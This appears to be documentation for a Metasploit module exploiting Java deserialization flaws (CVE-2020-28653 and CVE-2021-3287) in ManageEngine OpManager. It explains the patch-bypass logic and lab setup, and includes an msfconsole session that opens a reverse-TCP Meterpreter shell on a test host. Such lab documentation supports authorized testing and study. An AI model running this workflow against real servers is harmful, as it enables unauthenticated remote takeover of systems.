 ## Vulnerable Application

### Description

An HTTP endpoint used by the Manage Engine OpManager Smart Update Manager component can be leveraged to deserialize an
arbitrary Java object. This can be abused by an unauthenticated remote attacker to execute OS commands in the context of
the OpManager application (NT AUTHORITY\SYSTEM on Windows or root on Linux). This vulnerability is also present in other
products that are built on top of the OpManager application. This vulnerability affects OpManager versions 12.1 -
12.5.328.

#### CVE-2020-28653
This vulnerability affects OpManager versions 12.1 - 12.5.232. The vulnerability involves sending a malicious PDU to the
SmartUpdateManager handler that when deserialized executes an arbitary OS command.

#### CVE-2021-3287
This vulnerability is a patch bypass for CVE-2020-28653 and affects OpManger versions 12.5.233 - 12.5.328. When the
original vulnerability was patched, it was done so using a new `ITOMObjectInputStream` deserializer class. This object
has a flaw in it's validation logic. The object works by requiring the caller to specify a list of one or more object
classes that can be deserialized. If an instance is used to perform more than one `readObject` call however, only the
first is protected because once a serialized object of an allowed type is read from the stream, the
`ITOMObjectInputStream` instance remains in a sort of authenticated state where subsequent objects can be read of any
type.

The exploit technique for this CVE leverages this by first sending a legitimate, serialized SUMPDU to create an instance
of the `SUMServerIOAndDataAnalyzer` object whose `process` method makes multiple `readObject` calls using the same
instance for each.

Unlike exploiting CVE-2020-28653, to exploit CVE-2021-3287 the target server must have the SUM server running. This is
not the case for the standard installer, but is the case for "Central" variant. Without the SUM server running, the log
handler is not initialized which causes the request handler to crash making the vulnerable code path inaccessible.

### Setup (Windows)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable
1. Accept the default values for all settings (skip registration), until the very end when prompted to start the
  application
1. Unselect the option to start the application
    1. If this option is missed, just navigate to the tray icon where it will say that it's starting and select the
      option to stop it
1. Start a command prompt as an administrative user
1. Navigate to `C:\Program Files\ManageEngine\OpManager\bin`, older versions use `C:\ManageEngine\OpManager\bin`
1. Run `run.bat`
1. View and accept the license terms
1. Press `f` to run the product in Free mode

OpManager should start successfully after a few minutes. At that point the service can be exploited. In this case the
session will be opened in the context of the user that ran the service with `run.bat`. Once the server is restarted and
OpManager starts automatically, the vulnerability can be exploited to open a session in the context of NT
AUTHORITY\SYSTEM.

### Setup (Linux)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable as root
1. Accept the default values for all settings (skip registration)
1. Navigate to `/opt/ManageEngine/OpManagerCentral/bin`
1. Run `run.sh` as root

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/opmanager_sumpdu_deserialization`
1. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload-related options as necessary
1. Do: `run`
1. You should get a shell.

## Options

### CVE
Vulnerability to use. If set to 'Automatic' (the default), the module will attempt to detect the version and select the
correct vulnerability.

## Scenarios

### Windows Server 2019 x64 w/ ManageEngine OpManager v12.5.328

```
msf6 > use exploit/multi/http/opmanager_sumpdu_deserialization 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set TARGET Windows\ PowerShell 
TARGET => Windows PowerShell
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > check
[*] 192.168.159.96:8060 - The target appears to be vulnerable.
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] An HTTP session cookie has been issued
[*] Detected version: 12.5.328
[*] The request handler has been associated with the HTTP session
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.96:63887) at 2021-09-16 14:06:27 -0400

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[0]: https://archives.manageengine.com/opmanager/
